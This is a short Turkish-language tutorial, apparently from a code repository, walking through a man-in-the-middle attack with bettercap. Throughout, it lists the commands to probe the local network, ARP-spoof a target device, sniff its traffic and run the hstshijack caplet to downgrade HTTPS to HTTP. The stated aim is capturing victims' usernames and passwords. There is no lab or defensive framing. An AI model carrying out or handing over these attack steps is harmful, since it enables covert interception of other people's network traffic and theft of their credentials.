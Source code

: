bettercapi indir yok ise 
apt install bettercap


1. bettercapi başlatma
(istersen wlan0 ilede işlem yapabilirsni)
bettercap -iface eth0
---
2. ağa bağlı hedef cihazları bulma 
net.probe on

---
3. tarama ile ilgili özet tablo bilgi alma
net.show
---

ayarları yapıp arp saldırısına başlayalım

- set arp.spoof.fullduplex true
- set arp.spoof.internal true
- set arp.spoof.targets hedef-cihaz-ip
arp.spoof on
---
saldırı başladı fakat şu an dinleme yapamıyoruz. 
dinleme için net.sniff denilen modülü çalıştırmalıyız.
başlayalım

net.sniff on

dinleme başladı. Bundan sonra yeterince dinleme yapıp.
sonra o datayı analiz etmemiz gerekiyor

---
---
https i http ye zorlama

yukarıda ki tüm işlemleri yaptık. ama bu yaptıklarımız ile
sadece http protokolü ile gönderilen datayı anlamlandırabiliyoruz.
Bir şekilde https si http ye çevirmemiz gerek. bunun için 
geliştirilen bir tool mevcut (hstshijack). şimdi bu 
toolu kullanıp web sitelerini http ye zorlayalım


** aşağıdaki komutları yukarıdakilerin tamamını yaptıktan sonra bettercap içinde çalıştır.

caplets.show 

yukarıda ki komutu çalıştırdığınızda bazı araçların dosya 
yolunu göreceksin. gördüysen sıkıntı yok. eğer gelmediyse 
"caplets.update" komutunu bettercap içinde çalıştır.

hstshijack/hstshijack

yukarıda ki komutu çalıştır.
servisimiz çalışır durumdadır. bu zafiyet için önlem 
almamış web siteleri, kurban makina tarafında http olarak 
açılacaktır. kesin değil ama bu şekilde giden kullanıcı 
adı parola bilgisini vs görebilirsiniz. bu arada bu 
yöntem öyle çokta işe yaramaz. şans yaver giderse bazen 
güldürebilir :)

not: caplets.show komtunu çalıştırınca hstshijack dosyasının yolunu 
görebilirsiniz. kendi hstshijack dosyanızı bulabilir veya bu klsaör 
içinde kendi düzenlemelerinizi yapabilirsiniz


